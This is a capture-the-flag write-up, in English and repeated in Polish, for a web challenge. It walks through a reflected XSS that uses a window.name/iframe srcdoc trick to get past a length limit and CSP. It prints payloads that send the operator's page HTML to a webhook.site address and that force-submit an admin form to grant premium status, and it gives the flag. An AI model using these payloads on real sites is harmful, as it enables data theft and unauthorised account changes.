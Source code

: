 # MMORPG 3000 (web)

## Analysis
In this challenge we can see a simple website imitating a web store with stuff for magicians:
![](image1.png)
The registration form contains standard login and password fields and “name” field that fill be visible in our profile:
![](image2.png)
![](image3.png)

Besides editing our profile (we can change the “name” field to any string of up to 33 characters length) we can see “support” tab that suggests typical XSS task:
![](image4.png)

The hardcoded URL of our profile suggests injecting into “name” field in our profile that we control - however, it’s just a bait (typical for ctf.zone) and the limit is only client-side. Removing readonly attribute from “Link to profile” field lets us redirect the operator to any website that we control.
![](image5.png)

Now we gain very useful information: the operator is using Firefox 6.1

A quick glance at response headers:
```
Content-Security-Policy: style-src 'self' 'unsafe-inline'; script-src 'self' 'unsafe-inline' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/;
X-Frame-Options: ALLOW-FROM http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one
X-XSS-Protection: 1; mode=block
```

## XSS
We can find a real XSS in uid parameter of profile.php script:
![](image6.png)

Unfortunately, the maximum length of our payload is 36 characters. It’s too short for any meaningful action, so we need to think of something that will let us execute longer payloads. After many tires and some googling we find the solution:
the name attribute of window object is not changed while redirecting to different origins. We can set it in our website and execute on vulnerable one with short payload that bypasses CSP and makes uses of the fact that it’s allowed to load iframes from our own origin:
```html
?uuid="><iframe onload=srcdoc=window.name>
```
It’s worth to mention that we don’t care about X-XSS-Protection header that is simply ignored by Firefox.

```html
<script>
window.name='<script>alert("This is XSS!")</scrip'+'t>';
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E';
</script>
```
![](image7.png)

## Getting the flag
The remaining part of the task is simple: we send the content of operator’s website to us:
```html
<script>
window.name = `
<script>
window.frameElement.onload=null;
window.location="http://webhook.site/57607bbd-c1c9-43df-87cf-1de7dfe72d01?c="+btoa(window.parent.document.body.innerHTML);
`
window.name += '</scrip'+'t>’
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E'
</script>
```

And observe the new option in menu: manage.php:
![](image8.png)

Let’s write a pyaload that fills the form with our uid and gives us premium account:
```html
<script>
window.name = `
<script>
window.frameElement.onload=null;
console.log(window.parent.document.body.innerHTML);
function elo()
{
document.getElementById('cudo').onload=null;
r = document.getElementById('cudo').contentWindow.document;
r.getElementsByName('user_uuid')[0].value = 'dbb306dd-28c1-4333-88ba-9588842f08e0';
r.getElementsByName('status')[0].value = 'premium';
r.getElementById('user_manage').submit();
}

`
window.name += '</scrip'+'t><iframe src="/manage.php" onload="elo()" id="cudo">'
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E'
</script>
```

After refreshing our profile we can find a flag inside (unfortunately, while writing this writeup, that bot visiting website seems to be dead, so there won’t be a screenshot :( )
`ctfzone{0190af5705a38115cd6dee6e7d79e317}`



## Rozpoznanie
W zadaniu dostajemy prostą stronę udającą sklep z artykułami dla iluzjonistów:
![](image1.png)

Formularz rejestracji zawiera standardowe pole loginu i hasła oraz pole “name”, które będzie wyświetlane w profilu:
![](image2.png)
![](image3.png)

Oprócz edycji profilu (możemy zmienić pole Name na dowolny napis o długości do 33 znaków) widzimy zakładkę support, która sugeruje typowe zadanie na XSS:
![](image4.png)

Ustawiony na sztywno adres do naszego profilu sugeruje konieczność wstrzyknięcia naszego kodu w pole Name, które edytujemy - jest to jednak zwykła zmyła (typowa dla ctf.zone ;) ), a ograniczenie jest sprawdzane jedynie po stronie klienta. Usunięcie atrybutu readonly z pola “Link to profile” pozwala nam na przekierowanie operatora na dowolną kontrolowaną przez nas stronę:
![](image5.png)

Zyskujemy w ten sposób ważną informację: operator korzysta z przeglądarki Firefox 6.1.

Szybki rzut oka na nagłówki odsyłane przez serwer:
```
Content-Security-Policy: style-src 'self' 'unsafe-inline'; script-src 'self' 'unsafe-inline' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/;
X-Frame-Options: ALLOW-FROM http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one
X-XSS-Protection: 1; mode=block
```


## XSS
Prawdziwego XSS-a znajdujemy w polu uid skryptu profile.php:
![](image6.png)

Niestety, maksymalna długość naszego payloadu nie może przekraczać 36 znaków. To za mało na wykonanie jakiejkolwiek sensownej akcji, więc musimy pomyśleć o czymś, co pozwoli nam wykonywać dłuższe skrypty. Po wielu próbach i googlowaniu znajdujemy rozwiązanie: atrybut name obiektu window jest przekazywany między stronami. Możemy więc ustawić go na swojej stronie i wykonać na podatnej stronie krótkim payloadem, który omija CSP i wykorzystuje to, że dozwolone jest ładowanie ramek z własnego origina:
```html
?uuid="><iframe onload=srcdoc=window.name>
```
Warto wspomnieć, że nie przeszkadza nam tutaj nagłówek X-XSS-Protection, który Firefox zwyczajnie ignoruje.

```html
<script>
window.name='<script>alert("This is XSS!")</scrip'+'t>';
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E';
</script>
```

![](image7.png)
## No to flaga!
Dalej już z górki: przesyłamy sobie zawartość strony, którą widzi operator:
```html
<script>
window.name = `
<script>
window.frameElement.onload=null;
window.location="http://webhook.site/57607bbd-c1c9-43df-87cf-1de7dfe72d01?c="+btoa(window.parent.document.body.innerHTML);
`
window.name += '</scrip'+'t>’
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E'
</script>
```

I w zwróconym kodzie zauważamy nową opcję w menu: manage.php:
![](image8.png)

Napiszmy więc payload, który wypełnia formularz naszym uuid i przyznaje nam konto premium:
```html
<script>
window.name = `
<script>
window.frameElement.onload=null;
console.log(window.parent.document.body.innerHTML);
function elo()
{
document.getElementById('cudo').onload=null;
r = document.getElementById('cudo').contentWindow.document;
r.getElementsByName('user_uuid')[0].value = 'dbb306dd-28c1-4333-88ba-9588842f08e0';
r.getElementsByName('status')[0].value = 'premium';
r.getElementById('user_manage').submit();
}

`
window.name += '</scrip'+'t><iframe src="/manage.php" onload="elo()" id="cudo">'
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E'
</script>
```

Po czym odświeżamy nasz profil i znajdujemy w nim flagę (niestety, na moment pisanie writeupa bot odwiedzający stronę nie działa, więc nie będzie screenshota :( ):
`ctfzone{0190af5705a38115cd6dee6e7d79e317}`





